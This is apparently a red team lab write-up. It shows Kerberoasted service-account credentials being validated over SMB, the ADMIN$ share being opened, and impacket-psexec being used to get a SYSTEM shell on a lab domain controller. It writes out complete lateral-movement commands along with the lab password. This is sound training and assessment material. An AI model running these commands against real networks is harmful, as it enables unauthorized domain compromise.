



# Incident 15 — Credential Validation, SMB Administrative Access, and Remote SYSTEM Execution

## Overview

In this incident, I continued from the credentials recovered during **Incident 14** and validated what level of access the compromised `sqladmin` account provided inside the `REDTEAMLAB` Active Directory environment.

The goal was not simply to confirm that the password worked.

The objective was to answer a more important offensive security question:

> **What can this credential actually access?**

The investigation focused on:

- Validating the recovered credentials against SMB
- Enumerating accessible network shares
- Confirming access to the administrative `ADMIN$` share
- Establishing remote command execution on the Domain Controller
- Determining the security context of the remote session
- Confirming that remote execution resulted in `NT AUTHORITY\SYSTEM`

This incident demonstrates the transition from **credential discovery** to **privilege and access validation**.

---

## Lab Environment

| System | Hostname | IP Address | Role |
|---|---|---:|---|
| Kali Linux | Kali | `192.168.42.20` | Offensive workstation |
| Windows Server | DC1 | `192.168.42.40` | Active Directory Domain Controller |
| Domain | `redteamlab.local` | — | Active Directory domain |

### Domain

```text
redteamlab.local
```

### Domain Controller

```text
Hostname: DC1
IP: 192.168.42.40
Roles:
- Active Directory Domain Services
- DNS
- Kerberos KDC
- SMB
```

---

## Initial Access Context

During **Incident 14**, Kerberoasting was performed against the service account:

```text
sqladmin
```

The recovered password was:

```text
Password45
```

The credentials available at the beginning of this incident were therefore:

```text
Domain:   REDTEAMLAB
Username: sqladmin
Password: Password45
```

The first objective was to determine whether these credentials were valid and what resources they could access.

---

# Step 1 — Credential Validation

The first step was to test the recovered `sqladmin` credentials against SMB on the Domain Controller.

Command:

```bash
smbclient -L //192.168.42.40 -U 'REDTEAMLAB/sqladmin'
```

Password:

```text
Password45
```

### What the command does

`smbclient` communicates with the SMB service running on the target.

The `-L` option requests a list of available SMB shares.

The command therefore tests two things at the same time:

1. Whether the supplied credentials are valid
2. Which SMB shares are visible to the authenticated account

The authentication flow can be represented as:

```text
Kali
  |
  | SMB Authentication
  | REDTEAMLAB\sqladmin
  v
DC1
192.168.42.40
  |
  v
Credential accepted
```

Successful authentication confirmed that the password recovered during Incident 14 was valid.

---

## Screenshot



**Screenshot:** `01-credential-validation.png`

This screenshot documents successful SMB authentication using the recovered `sqladmin` credentials.

---

# Step 2 — Administrative Share Enumeration

After validating the credentials, the next objective was to determine whether `sqladmin` could access privileged SMB resources.

One particularly important Windows share is:

```text
ADMIN$
```

`ADMIN$` is a default hidden administrative share that normally maps to the Windows installation directory.

On DC1 this corresponds approximately to:

```text
C:\Windows
```

The following command was used:

```bash
smbclient //192.168.42.40/ADMIN$ -U 'REDTEAMLAB/sqladmin'
```

Password:

```text
Password45
```

The authentication succeeded and returned an interactive SMB prompt:

```text
smb: \>
```

This was significant because access to `ADMIN$` normally requires administrative privileges on the remote Windows system.

---

## Enumerating the Share

Inside the SMB session, the following command was executed:

```text
ls
```

This listed the contents of the administrative share.

The results exposed directories from the remote Windows installation.

Conceptually:

```text
Kali
  |
  | sqladmin credentials
  v
SMB :445
  |
  v
DC1
  |
  v
ADMIN$
  |
  v
C:\Windows
```

This demonstrated that the credential provided substantially more access than a normal domain user account.

---

## Screenshot



**Screenshot:** `02-admin-share-enumeration.png`

This screenshot documents successful enumeration of the `ADMIN$` administrative share.

---

# Step 3 — Remote Command Execution

After confirming access to the administrative SMB share, the next objective was to determine whether the same credentials could be used for remote command execution.

Impacket's `psexec` implementation was used.

Command:

```bash
impacket-psexec redteamlab.local/sqladmin:'Password45'@192.168.42.40
```

### What Impacket PsExec does

`impacket-psexec` uses Windows SMB functionality to execute commands remotely.

At a high level, the process involves:

```text
Valid Credentials
       |
       v
SMB Authentication
       |
       v
Administrative Access
       |
       v
Remote Service Creation
       |
       v
Command Execution
       |
       v
Remote Shell
```

The authentication succeeded and a remote command shell was obtained on DC1.

The prompt confirmed execution directly on the Domain Controller.

Example:

```text
C:\Windows\system32>
```

---

## Screenshot



**Screenshot:** `03-psexec-session.png`

This screenshot documents the successful remote PsExec session against DC1.

---

# Step 4 — Remote Identity Validation

Obtaining a shell is not enough.

The next question was:

> **What security context is this shell running as?**

Several Windows identity commands were executed.

---

## Hostname

```cmd
hostname
```

Output:

```text
DC1
```

This confirmed that the remote shell was running directly on the Domain Controller.

---

## Current Identity

```cmd
whoami
```

Output:

```text
nt authority\system
```

This was the most important result of the incident.

The shell was not running as:

```text
REDTEAMLAB\sqladmin
```

Instead, remote command execution resulted in:

```text
NT AUTHORITY\SYSTEM
```

---

## Security Identifier

The following command was also used:

```cmd
whoami /user
```

The SYSTEM account uses the well-known SID:

```text
S-1-5-18
```

This SID identifies:

```text
NT AUTHORITY\SYSTEM
```

---

## Group Membership

The following command was executed:

```cmd
whoami /groups
```

The output confirmed highly privileged local group membership and a SYSTEM-level integrity context.

Relevant information included:

```text
BUILTIN\Administrators
```

and:

```text
System Mandatory Level
```

---

## Screenshot


**Screenshot:** `04-remote-identity.png`

This screenshot documents:

```text
hostname
whoami
whoami /user
whoami /groups
```

and confirms that the remote shell was running as:

```text
NT AUTHORITY\SYSTEM
```

on:

```text
DC1
```

---

# Attack Path

The complete attack path for Incident 15 can be represented as:

```text
Incident 14
     |
     v
Kerberoasting
     |
     v
sqladmin TGS obtained
     |
     v
Offline password recovery
     |
     v
sqladmin : Password45
     |
     v
Incident 15
     |
     v
SMB Credential Validation
     |
     v
Credential Accepted
     |
     v
ADMIN$ Access
     |
     v
Administrative SMB Access
     |
     v
Impacket PsExec
     |
     v
Remote Shell on DC1
     |
     v
NT AUTHORITY\SYSTEM
```

---

# Authentication vs Authorization

This incident clearly demonstrates the difference between authentication and authorization.

## Authentication

Authentication answers:

> **Who are you?**

In this case:

```text
REDTEAMLAB\sqladmin
```

The password proved that the account credentials were valid.

---

## Authorization

Authorization answers:

> **What are you allowed to do?**

The important discovery was that `sqladmin` could access:

```text
ADMIN$
```

and could also establish remote administrative execution through PsExec.

Therefore:

```text
Valid Credential
      |
      v
Authentication
      |
      v
Account Identity
      |
      v
Authorization
      |
      v
Accessible Resources
      |
      v
Administrative Access
```

A valid password does not automatically mean administrative access.

The privilege level must always be tested separately.

---

# Why ADMIN$ Was Important

Windows systems expose several default SMB shares.

Common examples include:

```text
IPC$
ADMIN$
C$
```

`ADMIN$` is especially important because it normally maps to the Windows system directory.

Typical mapping:

```text
ADMIN$ → C:\Windows
```

Successful access to this share indicated that the recovered credential had administrative privileges on the target.

This was a major escalation compared with simply proving that the password was correct.

---

# Why SYSTEM Matters

Windows has several different privilege levels.

A simplified hierarchy is:

```text
Standard User
     |
     v
Local Administrator
     |
     v
NT AUTHORITY\SYSTEM
```

`NT AUTHORITY\SYSTEM` is the operating system's highly privileged local security context.

The SYSTEM SID is:

```text
S-1-5-18
```

Because the compromised host in this incident was the Domain Controller itself, obtaining SYSTEM-level execution on DC1 represents a critical compromise of the lab Active Directory environment.

This is significantly different from obtaining SYSTEM on a normal workstation.

Compare:

```text
SYSTEM on workstation
        |
        v
Full control of that workstation
```

versus:

```text
SYSTEM on Domain Controller
        |
        v
Control of a system hosting critical
Active Directory services and data
```

---

# Key Concepts Reinforced

## 1. Credentials Are Only the Beginning

Recovering a password does not complete an assessment.

The next question should always be:

```text
Where does this credential work?
```

Then:

```text
What can it access?
```

Then:

```text
What privileges does it provide?
```

---

## 2. Identity Must Be Verified

A successful remote shell should always be followed by identity validation.

Useful commands include:

```cmd
hostname
whoami
whoami /user
whoami /groups
```

These answer:

```text
Which computer am I on?
Who am I?
What is my SID?
Which security groups do I belong to?
What integrity level am I running at?
```

---

## 3. Administrative SMB Shares Are High-Value

Access to:

```text
ADMIN$
```

can indicate administrative privileges on a Windows host.

This makes SMB enumeration important when testing recovered credentials.

---

## 4. Authentication Is Not Authorization

Successful authentication only proves that credentials are valid.

It does not automatically prove:

```text
Administrative access
Remote execution
Share access
Domain privileges
```

Those permissions must be tested independently.

---

## 5. Always Validate the Final Security Context

The credential used to initiate an attack is not necessarily the identity of the resulting process.

In this incident:

```text
Authentication Credential:
REDTEAMLAB\sqladmin
```

resulted in a shell running as:

```text
NT AUTHORITY\SYSTEM
```

Understanding this distinction is essential when analyzing Windows remote execution.

---

# Commands Used

## SMB Share Enumeration

```bash
smbclient -L //192.168.42.40 -U 'REDTEAMLAB/sqladmin'
```

---

## ADMIN$ Access

```bash
smbclient //192.168.42.40/ADMIN$ -U 'REDTEAMLAB/sqladmin'
```

Inside the SMB client:

```text
ls
```

Exit:

```text
exit
```

---

## Remote Execution

```bash
impacket-psexec redteamlab.local/sqladmin:'Password45'@192.168.42.40
```

---

## Remote Identity Validation

```cmd
hostname
```

```cmd
whoami
```

```cmd
whoami /user
```

```cmd
whoami /groups
```

Exit:

```cmd
exit
```

---

# Evidence Summary

| Step | Evidence | Result |
|---|---|---|
| Credential validation | SMB authentication | `sqladmin` credential accepted |
| Administrative share access | `ADMIN$` | Successful |
| Directory enumeration | `ls` | Windows system directories visible |
| Remote execution | Impacket PsExec | Remote shell obtained |
| Target validation | `hostname` | `DC1` |
| Identity validation | `whoami` | `NT AUTHORITY\SYSTEM` |
| SID validation | `whoami /user` | `S-1-5-18` |
| Privilege validation | `whoami /groups` | Administrators / SYSTEM integrity |

---

# Screenshot Index

| # | File | Description |
|---:|---|---|
| 01 | `01-credential-validation.png` | Successful authentication to DC1 using `sqladmin` |
| 02 | `02-admin-share-enumeration.png` | Enumeration of the `ADMIN$` administrative share |
| 03 | `03-psexec-session.png` | Successful Impacket PsExec remote session on DC1 |
| 04 | `04-remote-identity.png` | Validation of hostname, SYSTEM identity, SID, and security groups |

---

# Incident 14 → Incident 15 Relationship

Incident 14 demonstrated how a service account password could be recovered through a Kerberoasting workflow inside the lab.

Incident 15 answered the next question:

> **What is the real impact of that credential?**

The progression was:

```text
Normal Domain User
        |
        v
SPN Discovery
        |
        v
Kerberoasting
        |
        v
Service Account Hash
        |
        v
Offline Password Recovery
        |
        v
sqladmin Credentials
        |
        v
SMB Authentication
        |
        v
Administrative Share Access
        |
        v
Remote Command Execution
        |
        v
SYSTEM on DC1
```

This demonstrates why offensive security assessments must evaluate the entire attack path rather than treating vulnerabilities as isolated findings.

---

# Lessons Learned

Incident 15 reinforced several important Red Team concepts:

- A recovered credential must always be validated.
- Valid credentials do not automatically imply administrative privileges.
- SMB can be used to determine which remote resources an account can access.
- `ADMIN$` is an important indicator of Windows administrative access.
- Remote execution should always be followed by identity validation.
- `whoami` and related commands provide critical information about the resulting security context.
- PsExec-style remote execution can result in a SYSTEM-level shell when administrative access is available.
- SYSTEM access on a Domain Controller has significantly greater impact than SYSTEM access on a normal workstation.
- Credential discovery is only one stage of an attack path.
- The more important question is what the recovered identity enables next.

---

# Final Mental Model

The main lesson from this incident is:

```text
CREDENTIAL
    |
    v
Is it valid?
    |
    v
Where does it work?
    |
    v
What resources can it access?
    |
    v
What privileges does it have?
    |
    v
Can it execute remotely?
    |
    v
What identity does the remote process obtain?
    |
    v
What is the security impact?
```

Instead of thinking:

```text
"I found a password."
```

the correct Red Team mindset is:

```text
"I found a credential.

Now I need to determine
what attack path this identity enables."
```

---

## Incident Status

```text
Credential Validation     : SUCCESS
SMB Authentication        : SUCCESS
ADMIN$ Access             : SUCCESS
Remote Execution          : SUCCESS
Remote Host               : DC1
Remote Identity           : NT AUTHORITY\SYSTEM
Final Privilege Level     : SYSTEM
Incident                  : COMPLETE
```
